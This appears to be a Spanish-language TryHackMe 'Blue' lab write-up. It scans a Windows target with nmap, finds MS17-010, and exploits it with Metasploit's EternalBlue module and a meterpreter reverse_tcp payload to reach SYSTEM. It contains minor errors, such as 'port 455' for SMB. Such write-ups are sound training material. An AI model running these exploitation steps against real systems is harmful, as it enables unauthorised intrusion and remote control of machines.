 ```yaml
---
title : Maquina [ Blue ]
published : True
---
```


<p>Maquina : Blue</p>
<p>Url : <a href="https://tryhackme.com/room/blue">Blue</a></p>
<p></p>

<h2><font color="white"><center># blue</center></font></h2>
<p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
<p></p>
<img src="/imgs/blue/blue0.jpg"/>
<p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
<p></p>
<img src="/imgs/blue/blue1.jpg"/>
<p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
<p></p>
<img src="/imgs/blue/blue2.jpg"/>
<p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemos con <font color="gold">msfconsole</font>.</p>
<p>Usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
<p></p>
<img src="/imgs/blue/blue3.jpg"/>
<p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
<p></p>
<img src="/imgs/blue/blue4.jpg"/>
<p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
<img src="/imgs/blue/blue5.jpg"/>
<p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
<img src="/imgs/blue/blue6.jpg"/>
<p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
<img src="/imgs/blue/blue7.jpg"/>
<p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
<img src="/imgs/blue/blue8.jpg"/>
<p>Y listo si ejecutas el comando Shell, y pones whoami seras autority system</p>
<p>Ok maquina vulnerada</p>
3
